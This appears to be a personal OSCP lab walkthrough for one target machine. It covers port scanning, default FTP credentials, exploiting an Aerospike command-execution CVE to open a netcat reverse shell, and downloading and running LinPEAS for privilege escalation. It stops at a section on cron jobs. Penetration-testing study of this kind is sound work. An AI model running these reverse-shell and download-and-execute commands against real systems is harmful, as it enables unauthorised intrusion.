 - nmap -v -sCTV -p- -Pn -T4 192.168.228.143
  - Open port 21, 22, 80, 81, 443, 3000, 3001, 3003, 3306, 5432
- ftp 192.168.228.143
  - Try creds:
    - anonymous / anonymous
    - root / rootpasswd
- Check for URL in browser - 192.168.228.143:3301
- nc 192.168.228.143 3003
  - ?
  - help
<img width="839" alt="Screenshot 2024-03-20 at 8 47 27 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/285bd26a-f659-47a5-9d41-b135abe33a8b">

- Aerospike Database (< 5.1.0.3) has Host Command Execution.
  - Download CVE docs - https://github.com/b4ny4n/CVE-2020-13151
  - rlwrap nc -nlvp 443
  - python cve2020-13151.py --ahost 192.168.228.143 --netcatshell --lhost=192.168.45.241 --lport=443
  - We get shell on nc
    - check if we have any sudo privileges
      - sudo -l   
    - script /dev/null -c bash
    - bash: /root/.bashrc: Permission Denied

- LinPEAS : Linux Privilege Escalation Awesome Script. It contains set of commands to do privilege escalation.
  - File transfer above script into 192.168.228.143 using python server
    - python -m http.server 80
  - Download file from nc shell
    - wget 192.168.45.241/linpeas_linux_amd64
      - permission denied 
    -  We generally have write access to home,tmp folders.
      - cd /home/aero
      - wget 192.168.45.241/linpeas_linux_amd64 -- Successful
<img width="601" alt="Screenshot 2024-03-20 at 9 11 32 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/de1f679c-f200-4304-80e9-e0dcc10a8c66">

 - Check file type:
   - file linpeas_linux_amd64
   - give executable access
     - chmod +x linpeas_linux_amd64
   - ./linpeas_linux_amd64
   - Below are results of linpeas.
   <img width="1155" alt="Screenshot 2024-03-20 at 9 34 03 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/782adbf5-c23f-436c-aa91-b06537c771ef">
- In basic info, OS is gcc-v9.3.0 (it is C Compiler) - we can perform kernal exploit
- linpiece suggestes all usable exploits:
  <img width="907" alt="Screenshot 2024-03-20 at 9 37 21 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/a4ad36e9-e3b3-41ff-b6c8-67e39c581aa8">
- Also check for any unusal services running as root. No issues as per below ss:
<img width="1261" alt="Screenshot 2024-03-20 at 9 40 41 PM" src="https://github.com/Vamckis/OSCP-Preparation/assets/71128825/605fe8dd-08f5-4355-95b5-aec4b007caef">

#### Cron Job
- Cron job is a scheduled job. If any service running as root, we should check if we can
  - /etc/cron.d
  - We need to check for a service which runs for every 5mins. so that job will execute our commands, instead fo waiting for long time.
